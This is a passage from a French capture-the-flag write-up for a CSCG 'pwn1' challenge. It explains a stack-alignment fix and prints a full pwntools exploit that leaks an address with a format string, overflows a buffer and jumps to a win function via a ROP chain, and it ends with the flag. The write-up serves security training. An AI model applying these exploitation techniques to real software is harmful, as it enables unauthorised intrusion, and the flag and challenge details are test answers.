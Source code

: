 ```python
PAYLOAD += p64(win_offset)          # <-- Jump vers la fonction win

p.sendline(PAYLOAD)
p.interactive()
```

Le payload devrait fonctionner, mais le programme segfault quand même:

![](/lib/images/writeups/german_fcsc/pwn//upload_87522ae9b2a2734684aa5b7939396a6e.png)

En effet, l'adresse sur RSP doit être alignée, donc se terminer par "0". En l'occurence, la stack n'est pas aligné, donc il faut ajouter un "ret" sur la stack pour la réaligner. Pour trouver un gadget "ret", il suffit de le calculer de quelque part:

![](/lib/images/writeups/german_fcsc/pwn//upload_d768f33d01ca5c2deb6a3ec6b1ec693e.png)

La fonction win est le plus simple étant donné qu'on a son adresse dans notre script d'exploitation. Le script final est donc:

```python
#!/usr/bin/python2

from pwn import *

HOST = "hax1.allesctf.net"
PORT = 9100
FORMATSTRING = "|%47$p|"

p = process('./pwn1')
#p = remote(HOST, PORT)
print(p.recvuntil('name:'))
p.sendline(FORMATSTRING)
leak = p.recvuntil('spell:').split('|')

base_addr = int(leak[-2], 16)-0x36f
log.info("Adresse de base: {}".format(hex(base_addr)))

win_offset = base_addr+0x267
log.info("Adresse de la fonction win: {}".format(hex(win_offset)))

ret_gadget = win_offset+0x36

raw_input("gdb attach")

PAYLOAD = "Expelliarmus\x00"
PAYLOAD += "A"*cyclic_find("cnaa")
PAYLOAD += p64(ret_gadget)
PAYLOAD += p64(win_offset)

p.sendline(PAYLOAD)
p.interactive()
```

![](/lib/images/writeups/german_fcsc/pwn//upload_1fa334b0232b7d042a83359fbfd2efba.png)

## Flag

> CSCG{NOW_PRACTICE_MORE}